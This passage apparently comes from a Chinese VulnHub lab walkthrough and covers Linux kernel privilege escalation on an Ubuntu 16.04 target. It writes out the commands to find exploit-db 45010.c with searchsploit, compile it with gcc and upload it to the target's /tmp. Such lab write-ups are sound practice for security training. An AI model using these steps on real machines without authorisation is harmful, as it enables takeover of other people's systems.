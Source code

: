 ```
得知这个是普通用户，并且得知操作系统发行版是16.04，且内核版本是4.10，于是即可查找适合该版本的内核提权的漏洞
```

![image-20241203004100163](vulnhub靶场实战/image-20241203004100163.png)	

```
searchsploit 16.04 Ubuntu
发现有提权漏洞，并且符合指定的内核版本和发行版本。这个内核漏洞是个c文件。
```

![image-20241203004624529](vulnhub靶场实战/image-20241203004624529.png)		

```
将这个c文件复制出来。
cp /usr/share/exploitdb/exploits/linux/local/45010.c /root
编译得到脚本。
gcc 45010.c -o 45010
```

![image-20241203004713164](vulnhub靶场实战/image-20241203004713164.png)	

```
上传这个恶意脚本到靶机上。
upload /root/45010 /tmp/45010
```

![image-20241203004746809](vulnhub靶场实战/image-20241203004746809.png)	
